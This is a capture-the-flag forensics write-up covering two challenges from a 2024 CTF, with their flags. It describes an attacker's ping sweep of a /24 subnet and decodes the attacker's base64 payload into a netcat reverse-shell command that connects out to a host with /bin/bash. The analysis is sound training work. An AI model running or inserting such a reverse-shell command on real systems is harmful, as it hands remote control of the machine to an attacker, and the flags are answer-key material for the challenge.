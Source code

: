 ## Rumor 3 [Forensics]
**Question:** I've heard rumors that it's possible to analyze an accident using just a single file. please find the answers to the following questions. What is the network band scanned by the attacker for additional infections? Example: xxx.xxx.xxx.0/36

**Flag:** `192.168.100.0/24`

Following the timeline, we can see the attacker running a Python script that pings a range of IP addresses after compromising the machine. The range was `192.168.100.1 - 192.168.100.255`.

![four](/assets/posts/hacktheonsejongctf2024/four.png)

## Rumor 4 [Forensics]
**Question:** I've heard rumors that it's possible to analyze an accident using just a single file. please find the answers to the following questions. What attack payload did the attacker use for the network-linked daemon on the server after the network scan? (reverse shell)

**Flag:** `bmMgMTkyLjE2OC4xMDAuMzIgNTQ1NCAtZSAvYmluL2Jhc2g=====`

Similarly, following the timeline shows that an encoded payload was executed after enumerating the network. The decoded payload can be identified as `nc 192.168.100.32 5454 -e /bin/bash`
